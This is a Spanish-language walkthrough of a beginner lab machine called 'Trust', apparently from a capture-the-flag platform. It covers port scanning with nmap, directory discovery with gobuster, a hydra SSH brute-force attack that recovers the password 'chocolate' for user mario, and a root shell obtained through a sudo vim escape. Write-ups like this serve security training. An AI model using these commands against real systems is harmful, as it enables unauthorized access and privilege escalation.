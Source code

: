 ```yaml
---
Maquina: Trust
SO: Linux
Explotación: Fuerza bruta
Escala_privs: Permisos sudo
Dificultad: Muy fácil
tags:
  - maquina
  - fuerza_bruta
  - linux
  - ssh
  - web_discovery
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sV -Pn 172.17.0.2
```

![[Pasted image 20241022111335.png]]

2. **Investigación del portal web**:

Como hemos observado hay un portal web activo en el puerto 80, así que vamos a indagar en el a ver que encontramos.

Tras pasar la herramienta gobuster tenemos el siguiente resultado:

```bash 
gobuster dir -u http://172.18.0.2/ -w /home/alejandro/wordlists/SecLists/Discovery/Web-Content/common.txt
```

![[Pasted image 20241022111505.png]]

Por lo que vemos nada fuera de lo normal y la página principal es la genérica de instalación de Apache

![[Pasted image 20241022111544.png]]

Tras analizar los diferentes directorios y realizar una búsqueda por extensión de archivos si que logramos encontrar algo interesante:

```bash 
gobuster dir -u http://172.18.0.2/ -w /home/alejandro/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x .php
```

![[Pasted image 20241022115935.png]]

![[Pasted image 20241022120005.png]]

Ya tenemos un nombre de usuario para hacer fuerza bruta al SSH.

## Explotación:

3. **Acceso al SSH por Fuerza Bruta**:

Con el usuario Mario, vamos a intentar hacer un ataque de hydra para poder acceder al SSH

```bash 
hydra -l mario -P /home/alejandro/wordlists/rockyou.txt -t 5 -vvv ssh://172.18.0.2
```

![[Pasted image 20241022120134.png]]

Listo, ya sabemos la contraseña del usuario mario -> chocolate

![[Pasted image 20241022120226.png]]

Una vez dentro ya podemos pasar a la escala de privilegios.

4. **Escala de privilegios**:

Para ver los permisos que tenemos con el comando sudo podemos ejecutar:

```bash 
sudo -l
```

![[Pasted image 20241022120323.png]]

Como podemos apreciar se puede ejecutar /usr/bin/vim como sudo.... Así que vamos a ir a la web de gtfobins para ver que comando podemos ejecutar link -> https://gtfobins.github.io/.

```bash 
sudo vim -c ':!/bin/sh'
```

![[Pasted image 20241022120426.png]]

Listo ya somos root. Si quieremos mejorar la shell podemos ejecutar:

```bash
SHELL=/bin/bash script -q /dev/null
```

![[Pasted image 20241022120528.png]]
